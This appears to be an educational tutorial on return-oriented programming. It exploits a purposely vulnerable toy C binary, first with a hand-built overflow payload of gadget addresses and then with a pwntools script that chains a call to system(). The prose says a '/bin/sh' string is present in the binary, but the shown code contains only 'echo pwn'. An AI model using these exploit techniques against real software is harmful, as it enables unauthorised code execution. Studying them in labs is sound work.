

Introduction
Return-oriented programming is a set of techniques which allow code execution and bypass data execution prevention defences, such as NX, and code signing. ROP utilises gadgets in order to build chains and execute arbitrary instruction sequences.
Given control over the stack, an attacker may fill it with malicious return addresses, all pointing to the subsequent gadget in the ROP chain. When one gadget is executed, the ret instruction jumps to the address stored at the top of the stack and the stack pointer is incremented. Consequently, the stack pointer now points to the next malicious return address, forming a chain of gadgets.
Gadgets
ROP gadgets are tiny instruction sequences which are already found in the target binary and end in a ret instruction. To manually find them within a binary, one might use a tool called ROPgadget with the following basic syntax:
ROPgadget --binary [binary name]

(This is just a small portion of the output.)
Exploitation
#include <stdio.h>
#include <stdlib.h>
void func()
{
system("echo 'An inconspicuous echo...'");
}
void vuln()
{
char input[20];
fgets(input, 0x60, stdin);
}
int main()
{
char* HarmlessString = "echo pwn";
vuln();
func();
return 0;
}
We immediately notice a potential buffer overflow. Since system is called in the execution process of the binary, it will have a corresponding PLT entry. Furthermore, the string "/bin/sh" has been conveniently place in the binary - If we had the proper gadgets, we could string together a ROP chain, allowing us to execute system("/bin/sh"). Well, let's start digging.
Running ROPgadgets on the above binary reveals a way to write to rdi!
0x000000000000126b : pop rdi ; ret
Consequently, we can just write the address of the "/bin/sh" string in the binary, place it on the stack and, when the time comes, rdi will be populated with this address. All we will then need to do is return to the PLT entry of system, so that the function is invoked with the correct argument!
The addresses we need turn out to be:
0x555555555040 - PLT entry of system
0x55555555526b - pop rdi; ret gadget
0x555555556028 - "/bin/sh"
0x5555555551ff - the address we want to continue execution from once the ROP chain is finished
Knowing that we need exactly 40 character to overflow the return address of vuln, we get the following payload.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x6b\x52\x55\x55\x55\x55\x00\x00\x28\x60\x55\x55\x55\x55\x00\x00\x40\x50\x55\x55\x55\x55\x00\x00\xff\x51\x55\x55\x55\x55\x00\x00

Input file:

And... exploit!

Exploiting with pwntools
pwntools comes with tools for automating the process of finding gadgets and stringing them into chains for exploitation.
You will first need to load the ELF executable and specify its base address:
elf = ELF('./rop')
elf.address = 0x555555554000
Subsequently, initialise a ROP object:
rop = ROP(elf)
Pwntools ROP commands
Get a dictionary of available gadgets:
rop.gadgets

Insert raw bytes into the chain:
rop.raw(bytes)

Call functions:
rop.call(symbol, [arguments])

Get chain as bytes:
rop.chain()

The Exploit
Using the above cheatsheet, we arrive at the following python script for exploitation:
#!/usr/bin/python3
from pwn import *
context.clear(arch='amd64')
elf = ELF('./rop')
elf.address = 0x555555554000
rop = ROP(elf)
rop.call(elf.symbols['system'], [next(elf.search(b"echo pwn\x00"))])
prog = process('./rop')
payload = [b"A"*40, rop.chain()]
payload = b"".join(payload)
prog.sendline(payload)
prog.interactive()